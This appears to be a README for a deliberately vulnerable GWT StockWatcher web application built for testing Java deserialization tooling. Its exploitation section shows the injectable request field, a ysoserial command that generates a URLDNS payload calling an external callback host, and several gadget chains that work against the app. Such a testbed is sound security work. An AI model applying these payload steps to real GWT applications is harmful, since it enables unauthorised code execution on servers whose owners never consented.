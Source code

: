 # Vulnerable GWT Web Application

This is a version of [the StockWatcher example application described in the GWT getting-started guide](https://www.gwtproject.org/doc/latest/tutorial/gettingstarted.html) that has been modified to use the GWT "enhanced classes" feature, making it vulnerable to a Java deserialization attack. It should only be used for testing detection and exploitation tooling. Enhanced classes are commonly used in real-world GWT-based applications, but until the publication of this example, there were no easily-located open source web applications that security professionals could use to validate their tooling and procedures.

[Exploiting GWT-based applications is discussed in the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability).

# Running the web application

To run the web application, you'll need a Linux system with the following tools:

* The full version of the OpenJDK 11 JRE, *not* the headless version - e.g. on Debian-based distributions, install the `openjdk-11-jre` package
* `ant` (install using your distribution's package manager)
* [Version 2.10.0 of the GWT SDK](https://www.gwtproject.org/download.html)

## Quick start

The application requires a number of JAR files that are too large to include directly in GitHub source control, so the easiest way to get started is to download the latest package from [the releases page](releases), and unpack it.

Once you've unpacked the release, edit this line in `build.xml` to replace `/home/user/GWT/gwt-2.10.0` with your GWT SDK directory:

<property name="gwt.sdk" location="/home/user/GWT/gwt-2.10.0" />

From within the source code directory, run the following commands:

```
ant build
ant devmode
```

This will launch the vulnerable web application and make it accessible at `http://127.0.0.1:8888/StockWatcher.html`.

Note that if you are forwarding traffic to the local service to make it accessible remotely, you should also forward port 9876 in addition to 8888.

## Running directly from the code in this repo

If you want to clone this repo and run the application without downloading a release, you'll need to download and add the following third-party JAR files into the `lib` directory after cloning it:

* [aspectjweaver-1.9.2.jar](https://repo1.maven.org/maven2/org/aspectj/aspectjweaver/1.9.2/)
* [commons-collections-3.2.2.jar](https://repo1.maven.org/maven2/commons-collections/commons-collections/3.2.2/)
* [javax.persistence.jar](http://www.java2s.com/Code/Jar/j/Downloadjavaxpersistencejar.htm)
* [jboss-as-connector-7.1.3.final.jar](https://mvnrepository.com/artifact/org.jboss.as/jboss-as-connector/7.1.3.Final)
* [jdo-api-3.2.1.jar](https://mvnrepository.com/artifact/javax.jdo/jdo-api/3.2.1)
* [jpa-annotations-source.jar](https://code.google.com/archive/p/wmc-toools/source/default/source?page=15)
* [junit-vintage-engine-5.10.0.jar](https://mvnrepository.com/artifact/org.junit.vintage/junit-vintage-engine/5.10.0)
* [jython-standalone-2.7.3.jar](https://www.jython.org/download.html)

You'll also need to copy the following GWT JAR files from your GWT directory (e.g. `gwt-2.10.0/`) to the `lib` directory for this vulnerable application:

* `gwt-dev.jar`
* `gwt-servlet.jar`
* `gwt-user.jar`
* `validation-api-1.0.0.GA.jar`
* `validation-api-1.0.0.GA-sources.jar`

After copying all of those JAR files, perform the other steps from the quick start section, above.

# Exploiting the web application

Using a web browser configured to connect through an intercepting proxy (such as Burp Suite), load the URL `http://127.0.0.1:8888/StockWatcher.html`.

The page will initially display a "compiling" message. Wait until it displays this basic form:

<img src="Vulnerable_Web_App-01.PNG" width="466" height="208" alt="[ The StockWatcher web app displaying a field to add a stock symbol ]">

Enter a short string in the field, such as `BFOX`, then click the *Add* button. The page should begin displaying random updates for the simulated stock symbol:

<img src="Vulnerable_Web_App-02.PNG" width="474" height="271" alt="[ The StockWatcher web app displaying simulated price data for the BFOX symbol ]">

In your intercepting proxy history, note that your browser is now repeatedly sending `POST` requests to `http://127.0.0.1:8888/stockwatcher/checkCustomClass1`, similar to the following:

```
POST /stockwatcher/checkCustomClass1 HTTP/1.1
Host: 127.0.0.1:8888
...omitted for brevity...

7|0|10|http://127.0.0.1:8888/stockwatcher/|259823D3B8B1029302496D0C7E009509|com.google.gwt.sample.stockwatcher.client.CheckCustomClassService|checkCustomClass1|com.google.gwt.sample.stockwatcher.client.CustomClass1/1972642674|rO0ABXcEAAAAAA==|com.google.gwt.sample.stockwatcher.client.CustomClass2/69504871|java.sql.Date/730999118|string1 value: 12345|string2 value: 98765|1|2|3|4|1|5|5|6|7|6|0|0|8|P___i17vzAA|0|9|10|
```

The Base64-encoded binary data `rO0ABXcEAAAAAA==` is a vulnerable injection point in the request. To exploit the web application, you'll need to generate a replacement payload. For example, to generate a `URLDNS` payload using [Bishop Fox's customized version of ysoserial](https://github.com/BishopFox/ysoserial-bf), you could execute the following command:

```
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
  --gwt bishopfox \
  URLDNS "https://dvc5ng8w4odw47m0a8qk45hdv41vpndc.oastify.com/URLDNS" \
  | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > gwt_urldns.bin.gwt_b64
```

Send a modified version of the request that replaces `rO0ABXcEAAAAAA==` with your generated payload, and the vulnerable application should deserialize and trigger it. In addition to whatever action the payload causes, the response should also include a `NoSuchFieldException` related to the field name if the value was deserialized, e.g. using the `bishopfox` name from the example above:

```
HTTP/1.1 200 OK
Connection: close
...omitted for brevity...

//EX[2,1,["com.google.gwt.user.client.rpc.IncompatibleRemoteServiceException/3936916533","java.lang.NoSuchFieldException: bishopfox"],0,7]
```

If you used the prebuilt release of the vulnerable web application, or manually added all of the JARs referenced above to a custom build, you should (at a minimum) be able to use the following payloads against the web app:

* AspectJWeaver
* Jython2
* Jython3

At the time of this writing, the mainline version of `ysoserial` did not support GWT-formatted output, so please be sure to use the custom fork.
